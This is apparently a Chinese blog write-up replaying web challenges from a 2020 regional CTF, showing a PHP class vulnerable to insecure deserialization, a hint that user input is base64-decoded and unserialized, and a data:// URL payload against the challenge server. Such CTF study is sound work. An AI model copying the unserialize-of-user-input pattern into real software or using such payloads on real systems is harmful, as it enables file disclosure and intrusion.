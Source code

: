 ```yaml
---
title: 复现2020区赛部分web题
id: 复现2020区赛部分web题
date: 2021-09-21 22:58:30

---
```




当时是2020.10.23吧，大概只学了3个月，一点web都没会哈哈，只刷了一些杂项题
所以基本没有动web题，正好朋友发了一下当时的部分web题来，题目可能不全呵呵

祝大家中秋快乐~

## web1

http://8.130.27.133/web1/

查看页面源代码即可

![](https://s2.loli.net/2022/03/09/qTE6Y5Jldfp8Qou.png)

## web2

http://8.130.27.133/web2/

查看源代码得：

```php
<?php	
	class flag{
        private $file = 'index.php';
        public function __construct($file){
            $this->file = $file;
        }
        function __wakeup(){
            $this->file = 'index.php';
        }
        function __destruct(){
            echo file_get_contents(str_ireplace(['fl@g','/','\\'],'',$this->file));
        }
    }
```

后面传东西可以看到新加的提示：

```php
$file = @base64_decode(file_get_contents($_GET['file'],'r'))
$gogogo = @unserialize($file);
```

或者随便传一个反序列化就可以拿源码：（这里就不贴出来了，访问下面连接看源码即可）

```
http://8.130.27.133/web2/?file=data://text/plain,Tzo0OiJmbGFnIjowOnt9
```
